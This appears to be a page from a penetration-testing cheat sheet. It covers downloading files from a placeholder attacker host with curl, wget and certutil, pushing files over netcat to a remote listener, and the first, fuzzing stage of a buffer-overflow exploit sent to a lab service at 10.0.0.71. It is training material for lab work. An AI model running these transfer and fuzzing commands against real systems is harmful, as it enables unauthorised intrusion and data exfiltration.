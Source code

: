 #### Linux Client Download

```bash
curl http://<ip>/file -o file
wget http://<ip>/file
```

#### Windows Client Download

```cmd
certutil -urlcache -f http://<ip>/uri output.ext
copy \\10.10.10.x\smb\file.exe .
```

#### Netcat Transfer

**Receiver (Listens)**

```bash
nc -nlvp 4444 > file
```

**Sender**

```bash
nc <receiver_ip> 4444 < file
```

**Base64 Encoded Sender (for binaries)**

```bash
cat binary | base64 | nc <receiver_ip> 4444
# On receiver, pipe to base64 -d
```

***

### Buffer Overflows

#### Steps:

1. Fuzzing (find the crash point)
2. Finding the Offset (control EIP)
3. Overwriting the EIP
4. Finding Bad Characters
5. Finding the JMP ESP address
6. Exploiting the System

#### 1. Fuzzing

```python
#!/usr/bin/python
import sys, socket
buffer = "A" * 3000
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.0.71', 9999))
    s.send(('TRUN /.:/' + buffer))
    s.recv(1024)
    s.close()
except:
    print "Error connecting"
    sys.exit()
```
